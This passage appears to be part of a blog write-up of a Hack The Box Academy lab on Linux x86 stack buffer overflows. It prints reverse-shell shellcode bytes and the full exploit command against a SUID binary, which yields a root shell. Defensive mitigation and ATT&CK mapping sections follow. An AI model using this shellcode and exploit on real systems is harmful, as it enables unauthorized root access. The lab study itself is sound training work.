
*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*_Figure 14.3 — Lab execution and output verification (Page 14)_*


### Lets read it

Lets read it:
```bash
cat shellcode
```


\xd9\xc1\xba\xca\x11\xc3\x8b\xd9\x74\x24\xf4\x58\x33\xc9\xb1
\x12\x83\xe8\xfc\x31\x50\x13\x03\x9a\x02\x21\x7e\x2b\xfe\x52
\x62\x18\x43\xce\x0f\x9c\xca\x11\x7f\xc6\x01\x51\x13\x5f\x2a
\x6d\xd9\xdf\x03\xeb\x18\xb7\xec\x0b\xdb\x46\x7b\x0e\xdb\x59
\x27\x87\x3a\xe9\xb1\xc7\xed\x5a\x8d\xeb\x84\xbd\x3c\x6b\xc4
\x55\xd1\x43\x9a\xcd\x45\xb3\x73\x6f\xff\x42\x68\x3d\xac\xdd
\x8e\x71\x59\x13\xd0

Now that we have the payload, we need to determine the return address – the
address where the buffer (the '0x55') ends and the payload starts.
For that, we will need to run the binary with the payload in gdb:
```bash
run $(python -c 'print "\x55" * (2060 - 95) +
"\xd9\xc1\xba\xca\x11\xc3\x8b\xd9\x74\x24\xf4\x58\x33\xc9\xb
1\x12\x83\xe8\xfc\x31\x50\x13\x03\x9a\x02\x21\x7e\x2b\xfe\x5
```
2\x62\x18\x43\xce\x0f\x9c\xca\x11\x7f\xc6\x01\x51\x13\x5f\x2
a\x6d\xd9\xdf\x03\xeb\x18\xb7\xec\x0b\xdb\x46\x7b\x0e\xdb\x5
9\x27\x87\x3a\xe9\xb1\xc7\xed\x5a\x8d\xeb\x84\xbd\x3c\x6b\xc
4\x55\xd1\x43\x9a\xcd\x45\xb3\x73\x6f\xff\x42\x68\x3d\xac\xd
d\x8e\x71\x59\x13\xd0" + "\x66" * 4')
as you notice – the buffer (\x55) fize is the offset size to the EIP (2060),
subtracted with the payload size (95).


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


### Lets view the memory

Lets view the memory:
x/2150xb $esp+500


Buffer start
*
*


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


*_Figure 16.3 — Lab execution and output verification (Page 16)_*


*between the red arrows – the shellcode payload (the msfvenom reverse
shell). *
*between the cyan arrows – the EIP , where should be the return address. (and
currently marked by the 66..66. *
The relevant part for our needs is the address where the payload starts:

We need the address line is 0xffffd738, (which is the address of the left-most
byte)
And from it – we count 7 bytes.
0xffffd738 + 7 = 0xffffd73f.
Meaning, our payload begins on the address 0xffffd73f. we will reverse the
bytes order, and denote it as '\x3f\xd7\xff\xff'.

*Important note – in the module they did the example with the use of NOPs
(no operation instruction) to increase the margin of where we can set the
address space (every address of NOP byte should be fine), the reason for that is
for the case the return address contains one of the forbidden bytes
('\x00\x09\x0a\x20'). However, this is not the case here – and for our purpose
– the NOPs section is not necessary. *

Now that we have the return address, we will replace the '"\x66" * 4' with it,
and we will executable the binary with our payload, without GDB:
./leave_msg $(python -c 'print "\x55" * (2060 - 95) +
"\xd9\xc1\xba\xca\x11\xc3\x8b\xd9\x74\x24\xf4\x58\x33\xc9\xb
1\x12\x83\xe8\xfc\x31\x50\x13\x03\x9a\x02\x21\x7e\x2b\xfe\x5
2\x62\x18\x43\xce\x0f\x9c\xca\x11\x7f\xc6\x01\x51\x13\x5f\x2
a\x6d\xd9\xdf\x03\xeb\x18\xb7\xec\x0b\xdb\x46\x7b\x0e\xdb\x5
9\x27\x87\x3a\xe9\xb1\xc7\xed\x5a\x8d\xeb\x84\xbd\x3c\x6b\xc
4\x55\xd1\x43\x9a\xcd\x45\xb3\x73\x6f\xff\x42\x68\x3d\xac\xd
d\x8e\x71\x59\x13\xd0" + "\x3f\xd7\xff\xff"')


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


### Lets look at the netcat listner

The execution seemingly get stuck…

Lets look at the netcat listner:

We have a shell!


'whoami' command confirms for us that the shell is indeed a root shell.
*note – the reason the shell is a root shell is because 'leave_msg' runs with
root permissions, and owned by root. *

Lets proceed to take the flag:


*note – this video assisted me a lot with this question. *


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


*_Figure 18.4 — Lab execution and output verification (Page 18)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1203, T1068` |
| **Common Weakness Enumerations** | `CWE-121, CWE-676` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1203`](https://attack.mitre.org/techniques/T1203/) | **Exploitation for Client Execution** | `Execution` | Corrupting stack frames to overwrite EIP register |
| [`T1068`](https://attack.mitre.org/techniques/T1068/) | **Exploitation for Privilege Escalation** | `Privilege Escalation` | Executing shellcode in SUID context to spawn root shell |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-121`: Stack-based Buffer Overflow](https://cwe.mitre.org/data/definitions/121.html)
- [`CWE-676`: Use of Potentially Dangerous Function (`strcpy`, `gets`, `sprintf`)](https://cwe.mitre.org/data/definitions/676.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Compile binaries with modern compiler defenses: Stack Canaries (`-fstack-protector-all`), ASLR, and Non-Executable Stack (`NX`/`-z noexecstack`).
- Monitor Linux coredump events in system logs (`/var/log/messages`, `dmesg`) for `SIGSEGV` segmentation faults in critical binaries.
- Adopt memory-safe programming languages (Rust, Go) or safe string handling functions (`strncpy`, `snprintf`).


---

## Authoritative References & Recommended Reading

- [HTB Academy: Stack-Based Buffer Overflows on Linux x86](https://academy.hackthebox.com/module/31) — *Official Hack The Box curriculum track*
- [Aleph One: Smashing The Stack For Fun And Profit](https://phrack.org/issues/49/14.html) — *Foundational Phrack paper on stack overflow mechanics*
- [GDB GEF / Pwndbg Exploit Development Plugins](https://github.com/hugsy/gef) — *GDB enhancements for vulnerability research*
- [Corelan Team Exploit Writing Series](https://www.corelan.be/) — *Premier binary exploitation tutorials*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-34-using-crackmapexec/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 34: Using CrackMapExec for Active Directory Dominance</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 35 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-36-stack-based-buffer-overflows-on-windows-x86/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 36: Stack-Based Buffer Overflows on Windows x86</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
